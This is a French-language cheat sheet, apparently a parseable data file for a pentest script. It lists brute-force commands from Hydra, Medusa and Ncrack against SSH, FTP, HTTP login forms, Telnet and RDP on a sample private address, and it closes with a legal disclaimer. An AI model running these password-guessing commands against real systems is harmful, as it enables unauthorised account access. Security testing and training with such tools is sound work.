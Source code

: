 # Couche 4 (Transport) – Attaques et Outils

**Version Testée :**
- THC Hydra 9.x
- Medusa 2.x
- Ncrack 0.7.x

**Description :**  
Ce document recense les outils et attaques disponibles pour la couche Transport du modèle OSI.  
La couche 4 gère le transport des données via des protocoles tels que TCP et UDP.  
Les outils présentés permettent de mener des attaques de force brute sur divers protocoles (SSH, FTP, Telnet, RDP, etc.) ainsi que des tests d’authentification.  
Le script automatisé analysera ce fichier pour :
- Lister les outils disponibles (sections marquées par **"### Outil:"**),
- Afficher, pour chaque outil, les attaques possibles (sections marquées par **"#### Attaque:"**),
- Proposer les commandes associées pour chaque attaque (commandes présentées dans des blocs de code sous **"###### Commande:"**).

Vous pourrez enrichir ce fichier ultérieurement sans modifier le script.

---

### Outil: Hydra
**Description :**  
Hydra est un outil de force brute réseau rapide, supportant de nombreux protocoles tels que SSH, FTP, HTTP, etc.

#### Attaque: Bruteforce SSH
*Détails de l'attaque :*  
Utiliser Hydra pour tester une combinaison de login/mot de passe sur un service SSH.

###### Commande: Bruteforce SSH
```bash
hydra -l admin -P passlist.txt ssh://192.168.1.1
```
Détails :
- Login : admin  
- Wordlist : passlist.txt  
- Cible : 192.168.1.1

#### Attaque: Bruteforce FTP
*Détails de l'attaque :*  
Tester plusieurs combinaisons sur le service FTP pour obtenir un accès non autorisé.

###### Commande: Bruteforce FTP
```bash
hydra -L users.txt -P ftp_pass.txt ftp://192.168.1.1
```
Détails :
- Liste d’utilisateurs : users.txt  
- Wordlist FTP : ftp_pass.txt  
- Cible : 192.168.1.1

#### Attaque: Bruteforce HTTP POST
*Détails de l'attaque :*  
Tester des formulaires de connexion HTTP pour trouver les identifiants valides.

###### Commande: Bruteforce HTTP POST
```bash
hydra -l user -P rockyou.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
Détails :
- Test sur formulaire HTTP  
- Cible : 192.168.1.1

---

### Outil: Medusa
**Description :**  
Medusa est un brute-forcer parallèle pour les connexions réseau, permettant de tester rapidement de nombreux protocoles.

#### Attaque: Bruteforce Telnet
*Détails de l'attaque :*  
Utiliser Medusa pour forcer l’accès à un service Telnet via une attaque par dictionnaire.

###### Commande: Bruteforce Telnet
```bash
medusa -h 192.168.1.1 -u admin -P telnet_pass.txt -M telnet
```
Détails :
- Cible : 192.168.1.1  
- Nom d'utilisateur : admin  
- Wordlist : telnet_pass.txt

---

### Outil: Ncrack
**Description :**  
Ncrack est un outil de crack d'authentification réseau à grande vitesse, idéal pour tester la robustesse des services comme SSH ou RDP.

#### Attaque: Bruteforce RDP
*Détails de l'attaque :*  
Utiliser Ncrack pour tester les identifiants sur un service Remote Desktop Protocol.

###### Commande: Bruteforce RDP
```bash
ncrack -p 3389 192.168.1.1
```
Détails :
- Cible : 192.168.1.1  
- Port RDP : 3389

#### Attaque: Bruteforce SSH (alternative)
*Détails de l'attaque :*  
Tester les identifiants SSH en alternative à Hydra.

###### Commande: Bruteforce SSH avec Ncrack
```bash
ncrack -p 22 192.168.1.1
```
Détails :
- Cible : 192.168.1.1  
- Port SSH : 22

---

## Précautions Légales & Disclaimer
**Attention :**  
L'utilisation de ces outils et commandes doit être réalisée dans un cadre légal et exclusivement en environnement de test. Toute utilisation malveillante est strictement interdite.

---

## Références & Ressources
- [THC Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Medusa GitHub](https://github.com/jmk-foofus/medusa)
- [Ncrack Official Website](https://nmap.org/ncrack/)
```